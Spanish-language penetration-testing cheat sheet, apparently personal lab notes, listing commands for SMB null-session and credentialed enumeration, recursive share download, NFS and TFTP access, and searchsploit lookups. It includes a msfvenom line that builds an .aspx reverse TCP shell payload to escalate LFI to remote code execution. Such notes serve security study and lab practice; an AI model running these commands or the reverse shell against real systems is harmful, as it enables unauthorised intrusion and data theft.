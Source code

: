#### Conectar a lo compartido con una sesion Nula (connect to a share with null sesion)
- smbclient \\\\ip\\$Admin -N
- smbmap -H <ip>
- smbmap -u DoesNotExists -H <ip>
#### enum4linux -a <ip>
#### Checkear permisos en share
- smb: \>showacls  #habilita acl listing
- smb: \>dir   #lista directorios con acls (access control lists)
#### Montar share en maquina local
- mount -t cifs //<ip>/Sharename ~/path/donde/mount_directorio
#### Listar share con credenciales
- smbmap -u Usuario -p Password -d dominio.ltd -H <ip victima>
#### Listar share con todos los archivos recursivamente
- smbmap -R -H <ip>
- smbmap -R Carpeta -H <ip>
- smbclient //<ip>/Carpeta
- smb: \> recurse ON
- smb: \> prompt OFF
- smb: \> mget *

##Interactual con smb CON usuario PEPITO
python3 /usr/share/doc/python3-impacket/examples/smbclient.py -no-pass Pepito@ip
#put enviar archivo
#get descargar archivo
-Posible transf de LFI a RCE mandando una shell ej .aspx
msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=53 -f aspx -o payload.aspx


#### Subir/Descargar archivos especificos
- smbmap -H <ip> --download 'Carpeta\file.htb'
- smbmap -H <ip> --upload test.txt Sharename/test.txt
 
### NFS Puerto 2049
- showmount -e <ip>
- mount -t nfs -o vers=3 <ip>:/home/ ~/home
- mount -t nfs4 -o proto=tcp,port=2049 127.0.0.1:/srv/Share mountpoint

### TFTPD Udp 69
- tftp client 
puede ser usado para leer archivos de sistema, MSSQL password desde un archivo mdf

### EXPLOITS
EDB y searchsploit
- checkear:
CVE detallado para RCE / LFI / RFI / SQLi 

### Searchsploit busca Pocs
searchsploit 'servicio y version'
searchsploit -m n°archivo    # crea un mirror del poc en cuestion copiandolo a la carpeta donde estemos
